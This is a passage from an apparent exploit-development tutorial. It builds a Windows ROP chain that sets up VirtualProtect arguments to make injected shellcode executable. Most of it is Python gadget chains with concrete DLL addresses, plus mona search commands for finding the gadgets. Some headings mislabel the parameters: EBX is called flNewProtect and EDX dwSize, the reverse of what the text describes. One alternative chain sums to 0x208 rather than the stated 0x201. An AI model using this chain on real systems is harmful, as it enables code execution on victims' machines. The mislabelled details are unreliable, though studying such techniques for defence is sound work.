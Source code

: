 ### 6.2 Setting up EBX (flNewProtect parameter)

```python
# EBX - Size parameter (0x201)
ebx = struct.pack("<I", 0x75f366b4)  # POP EAX # RETN [KERNELBASE.dll]
ebx += struct.pack("<I", 0xfffffdff)  # Value to negate, will become 0x00000201
ebx += struct.pack("<I", 0x76505808)  # NEG EAX # RETN [KERNEL32.DLL]
ebx += struct.pack("<I", 0x77597926)  # XCHG EAX,EBX # RETN [msvcrt.dll]
```

**Current Value**: 0x201 (Size of region to protect)
**Reason**: This needs to be large enough to cover our shellcode (513 bytes).

**How we calculated it**: Using negation technique to avoid null bytes:
1. Load EAX with 0xfffffdff (value to negate, will become 0x00000201)
2. Negate EAX to get 0x201
3. Exchange EAX and EBX

**How we found these gadgets**:
```
!py mona find -type instr -s "pop eax" -m "kernelbase" -cpb "\x00"
!py mona find -type instr -s "neg eax" -m "kernel32" -cpb "\x00"
!py mona find -type instr -s "xchg eax, ebx" -m "msvcrt" -cpb "\x00"
```

**Alternative Options**:
1. **Adding from zero**:
```python
ebx = struct.pack("<I", 0x77cef70e)  # xor eax, eax; ret
ebx += struct.pack("<I", 0x775b3084)  # add eax, 0x100; ret
ebx += struct.pack("<I", 0x775b3084)  # add eax, 0x100; ret
ebx += struct.pack("<I", 0x775b616f)  # add eax, 8; ret
ebx += struct.pack("<I", 0x77597926)  # xchg eax, ebx; ret
```

2. **Different size value**:
```python
ebx = struct.pack("<I", 0x75f366b4)  # pop eax; ret
ebx += struct.pack("<I", 0xfffffeff)  # -0x101 (smaller region)
ebx += struct.pack("<I", 0x76505808)  # neg eax; ret
ebx += struct.pack("<I", 0x77597926)  # xchg eax, ebx; ret
```

### 6.3 Setting up EDX (dwSize parameter)

```python
# EDX - Protection flag (0x40)
edx = struct.pack("<I", 0x75d91838)  # POP EAX # RETN [KERNELBASE.dll]
edx += struct.pack("<I", 0xffffffc0)  # Value to negate, will become 0x00000040
edx += struct.pack("<I", 0x76505808)  # NEG EAX # RETN [KERNEL32.DLL]
edx += struct.pack("<I", 0x77d9e6c0)  # XCHG EAX,EDX # RETN [ntdll.dll]
```

**Current Value**: 0x40 (PAGE_EXECUTE_READWRITE)
**Reason**: This is the memory protection flag to make our shellcode executable.
